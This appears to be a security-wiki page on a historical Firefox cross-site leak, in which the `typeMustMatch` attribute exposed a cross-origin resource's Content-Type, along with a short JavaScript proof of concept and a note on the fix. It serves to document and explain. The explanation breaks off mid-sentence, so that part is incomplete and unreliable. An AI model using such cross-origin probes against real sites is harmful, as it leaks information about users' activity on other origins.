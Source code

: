 +++
title = "Content-Type"
description = ""
date = "2020-07-21"
category = "historical"
attacks = [
    "dom property",
]
defenses = [
    "deprecation"
]
menu = "main"
+++

## Explanation

The [`typeMustMatch`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLObjectElement/typeMustMatch) attribute is a boolean that reflects the `typeMustMatch` attribute of an `object` element. It requires a certain MIME type to be enforced when loading an object, checking if the `Content-Type` of the resource




```javascript
let url = 'https://target'
let mime = 'application/json'
let x = document.createElement('iframe');
x.src = `data:text/html,<object id=obj type="${mime}" data="${url}" typemustmatch><script>onload = ()=>{console.log(obj.clientHeight)}%3c/script></object>`;
document.body.appendChild(x);
```

## Fix

Firefox was the only browser supporting the `typeMustMatch` attribute [^2] and since no other browsers offered support, it was removed in version 68 and from the HTML Living Standard.

## References

[^1]: Cross-Site Content and Status Types Leakage, [link](https://medium.com/bugbountywriteup/cross-site-content-and-status-types-leakage-ef2dab0a492)
[^2]: Remove support for typemustmatch, [link](https://bugzilla.mozilla.org/show_bug.cgi?id=1548773)